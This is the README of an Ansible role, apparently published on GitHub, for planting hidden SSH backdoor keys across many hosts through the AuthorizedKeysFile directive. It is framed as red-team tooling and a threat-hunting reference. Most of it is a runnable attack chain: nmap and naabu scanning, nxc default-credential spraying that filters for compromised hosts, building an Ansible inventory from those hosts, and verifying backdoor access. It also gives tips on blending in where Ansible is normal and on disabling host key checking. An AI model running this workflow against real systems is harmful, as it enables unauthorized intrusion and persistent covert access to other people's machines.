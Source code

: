 unauthorized_keys
=========

This role is designed to drop tasks into for unauthorized administration (red teaming) at scale. It was created partially as a reference for practical ways in which remote administration mechanisms can be configured to function in unexpected ways, and partially as a way to document what to look for and how it works, when threat hunting. The name is based on the AuthorizedKeysFile SSH directive.

This is most effective in environments where Ansible is seen as "normal". Leveraging the inventory and SSH arguments in Ansible can make this role effective. Check the following references as well as the inventory example, below the playbook example.

- https://stackoverflow.com/questions/23074412/how-to-set-host-key-checking-false-in-ansible-inventory-file
- https://docs.ansible.com/ansible/latest/collections/ansible/builtin/ssh_connection.html

Tasks currently include:

- `unauthorized-keys.yml`: Create a backdoor by hiding via the `AuthorizedKeysFile` directive

Typical usage, if you already have a `scope.txt`:

```bash
# nmap ping sweep
sudo nmap -n -sn -PE -e tun0 -oA nmap-ping-sweep-"$(date +%F_%T)" -iL scope.txt --disable-arp-ping

# naabu scoped ports
naabu -list scope.txt -port 21,22,53,80,443,445,3389,8080 -i tun0 -o naabu-scoped-ports-"$(date +%F_%T)".log
grep ':22' naabu-scoped-ports-2024-01-02_03:04:05.log | cut -d ':' -f 1 > targets-ssh.txt

# nxc ssh default creds audit
nxc ssh -u '<username>' -p '<password>' --log nxc-ssh-audit-$(date +%F_%T).log ./targets-ssh.txt
cat nxc-ssh-audit-2024-01-02_03:04:05.log | grep 'Pwn3d!' | awk '{print $9}' | tee targets-ssh-inventory-"$(date +%F_%T)".txt

# targets-ssh-inventory-"$(date +%F_%T)".txt becomes your ansible inventory
cat targets-ssh-inventory-"$(date +%F_%T)".txt | sed -E 's/$/:/g'
# paste the results into the inventory.yml file

# nxc backdoor audit, for example if you installed a backdoor key with the unauthorized-keys task
nxc ssh -u '<username>' -p '<ssh-key-password>' --key-file ./id_rsa --log nxc-ssh-audit-$(date +%F_%T).log ./targets-ssh.txt
```

An error you may run into with older systems (this still needs diagnosed):

```txt
\r\nSyntaxError: invalid syntax\r\n", "msg": "MODULE FAILURE\nSee stdout/stderr for the exact error", "rc": 1, "warnings": ["Platform linux
on host 10.1.1.18 is using the discovered Python interpreter at /usr/bin/python3, but future installation of another Python interpreter could change the meaning of that path. See https://docs.ansible
.com/ansible-core/2.17/reference_appendices/interpreter_discovery.html for more information."]}}, "msg": "The following modules failed to execute: ansible.legacy.setup\n"}
```

Requirements
------------

You need `sshpass` installed if the targets use password auth.

```bash
sudo apt update; sudo apt install -yq sshpass
```

Role Variables
--------------

In `defaults/main.yml`:

- `public_key`: SSH public keys to use.


Dependencies
------------

None.

Example Playbook
----------------

Playbook example:

```yml
- name: "Default Playbook"
  hosts:
    all
  roles:
    - role: "unauthorized_keys"
```

Inventory example:

```yml
ssh_group:
  hosts:
    10.10.0.15:
    10.10.0.16:
    10.10.0.20:
    10.10.0.28:
    10.10.0.29:
  vars:
    ansible_port: 22
    ansible_user: "username"
    # Optional, use this if passwords are in use
    # You can also put these into a vault and call them here as variables
    ansible_ssh_password: "password"
    ansible_become_password: "password"
    ansible_become_method: sudo
    # Customize SSH Arguments using ansible_ssh_common_args
    ansible_ssh_common_args: '-o IdentitiesOnly=yes -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null'

rdp_group:
  # Do the same here for rdp
  <SNIP>

mysql_group:
  # Do the same here for mysql
  <SNIP>
```

License
-------

MIT

Author Information
------------------

[straysheep-dev/ansible-configs](https://github.com/straysheep-dev/ansible-configs/)
